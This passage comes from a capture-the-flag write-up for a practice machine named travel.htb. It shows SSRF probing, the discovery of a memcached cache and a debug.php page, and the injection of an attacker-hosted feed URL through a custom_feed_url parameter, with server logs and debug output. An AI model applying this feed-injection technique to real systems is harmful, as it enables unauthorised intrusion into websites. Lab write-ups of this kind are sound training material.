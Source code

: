 In theory this shouldnt work as we used localhost which is not allowed in the php file.

As expected we get the error:
```
Hacking attempt prevented (Internal SSRF). Event has been logged.
```
## Testing memcached cli and debug.php

So we know that the template.php is infact being used on this website.
We enumerate the `rss_templat`e file a bit further and come accross this line of code:
```
$simplepie->set_cache_location('memcache://127.0.0.1:11211/?timeout=60&prefix=xct_');
```

This reveals that memcache is running on the box.

We go back to the `readme.md` file and see that it mentions a directory called `wp-content/themes/twentytwenty/`.

We enum further and we find a mention of a file called `debug.php` in the `rss_template`.
We assume that theese two finding must be linked somehow and we access `debug.php` in the browser.

We access it with this url.
```
http://blog.travel.htb/wp-content/themes/twentytwenty/debug.php
```

All it returns are loads of `~~~~~~~~`

After spending ages sitting at this part i finally managed to link all my findings together and exploit it.

We have to combine the links for the dubug.php page and inject it with our own custom parameters, being `custom_feed_url`, we provide this parameter with our own `customfeed.xml` which is that of the `/newsfeed/customfeed.xml` file. We can downlaod the file to our box and then link it to debug.php so it executes it. 

We setup a python http server with `python3 -m http.server` and navigate to the following url:
```
http://blog.travel.htb/awesome-rss/?debug&custom_feed_url=http://10.10.14.14/feed.xml
```
Our python server gets hitted and we head back to our browser.
```
 python3 -m http.server          
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.189 - - [09/Sep/2020 10:24:54] "GET /customfeed.xml HTTP/1.1" 200 -
10.10.10.189 - - [09/Sep/2020 10:24:54] "GET /customfeed.xml HTTP/1.1" 200 -
10.10.10.189 - - [09/Sep/2020 10:24:58] "GET /customfeed.xml HTTP/1.1" 200 -
```
In a new tab we navigate to the url:
```
http://blog.travel.htb/wp-content/themes/twentytwenty/debug.php
```
And we get a new output:
```bash
~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ | xct_760d1ad137(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) | ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
```
## PHP serialization
